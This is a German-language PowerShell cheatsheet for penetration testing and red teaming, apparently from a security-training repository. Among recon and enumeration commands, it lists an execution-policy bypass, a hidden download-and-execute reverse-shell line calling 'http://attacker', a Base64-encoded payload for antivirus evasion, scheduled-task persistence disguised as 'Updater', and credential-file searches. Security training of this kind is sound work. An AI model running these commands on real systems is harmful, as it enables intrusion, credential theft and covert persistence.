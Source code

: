 # ⚡ PowerShell Cheatsheet for Cybersecurity & Offensive Ops

## Ziel dieser Datei

Dieses Cheatsheet bietet eine schnelle Referenz für den **Einsatz von PowerShell** in Penetration Tests, Incident Response, Red Teaming und OSINT. Es enthält **sicherheitsrelevante, administrative und offensive Befehle**, gegliedert nach Szenarien.

> Hinweis: PowerShell ist ein äußerst mächtiges Werkzeug – bitte **nur in autorisierten Umgebungen** einsetzen!



## Inhaltsverzeichnis

- [Systeminformationen](#systeminformationen)
- [Benutzer & Gruppen](#benutzer--gruppen)
- [Netzwerk- & Firewallinfos](#netzwerk---firewallinfos)
- [Dateisystem und Suche](#dateisystem-und-suche)
- [Prozesse & Dienste](#prozesse--dienste)
- [PowerShell Execution Policies](#execution-policies--umgehung)
- [Datei-Download & Remote Access](#download--remote-access)
- [PowerShell Recon & Enumeration](#powershell-recon--enum)
- [PowerShell als Angriffsplattform](#powershell-für-angreifer)
- [Persistenz via PowerShell](#persistenz-via-powershell)
- [Antivirus Evasion](#av-evasion-basics)
- [Nützliche Tools](#nützliche-module--projekte)
- [Verknüpfte Dateien im Repository](#verknüpfte-dateien-im-repository)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Systeminformationen

```powershell
Get-ComputerInfo
systeminfo
hostname
Get-WmiObject -Class Win32_OperatingSystem
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Benutzer & Gruppen
```powershell
whoami /all
Get-LocalUser
net user
net localgroup administrators
Get-LocalGroupMember -Group "Administrators"
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Netzwerk- & Firewallinfos

```powershell
ipconfig /all
Get-NetIPConfiguration
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
Get-NetFirewallProfile
Get-NetFirewallRule
Test-NetConnection -ComputerName <IP> -Port <Port>
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Dateisystem und Suche

```powershell
Get-ChildItem -Recurse -Filter *.ps1
dir -Recurse -Filter *password*
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Prozesse & Dienste

```powershell
Get-Process
tasklist
Get-Service
Get-WmiObject win32_service | Where { $_.State -eq "Running" }
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Execution Policies & Umgehung

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Download & Remote Access
### Datei herunterladen

```powershell
Invoke-WebRequest "http://ip/script.ps1" -OutFile "script.ps1"
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Remote Shell (reverse)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/nc.ps1')
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## PowerShell Recon & Enum

### Passwort-Reste / Credentials

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include *pass*,*cred*,*vnc* | Select-String -Pattern "password"
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Benutzerkontext

```powershell
Get-CimInstance Win32_LoggedOnUser
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -like "*"}
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## PowerShell für Angreifer

| Tool                      | Beschreibung                             |
| ------------------------- | ---------------------------------------- |
| `PowerView.ps1`           | AD-Recon, Trust-Mapping                  |
| `PowerUp.ps1`             | Local Privilege Escalation Checks        |
| `Invoke-Mimikatz`         | Credential Dumping (⚠️ AV blockiert oft)  |
| `SharpHound` (BloodHound) | AD Graph-Enum                            |
| `Empire`                  | PowerShell RAT Framework                 |
| `Powersploit`             | Offensive Module-Sammlung                |

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz via PowerShell
```powershell
# Persistenz per Scheduled Task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\evil.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger
```

 


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## AV-Evasion Basics (nur zu Lernzwecken!)
```powershell
# Base64-Encoding Payloads
$bytes = [System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).DownloadString('http://<ip>/payload.ps1')")
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Nützliche Module & Projekte

| Tool / Modul   | Link                                                                                                                                     |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| PowerSploit    | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                                         |
| Nishang        | [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)                                                         |
| PowerUp        | [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) |
| Empire         | [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)                                                           |
| PowerSharpPack | [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)                                     |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verknüpfte Dateien im Repository
- [windows_privilege_escalation.md](/04-host-security/angriffe/privilege_escalations/windows_privilege_escalation.md)
- [linux_privilege_escalation.md](/04-host-security/angriffe/privilege_escalations/linux_privilege_escalation.md)
- [red_team_tools.md](/05-offensive_defensive_strategien/red-teaming_offensive/red_team_tools.md)


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Oktober 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
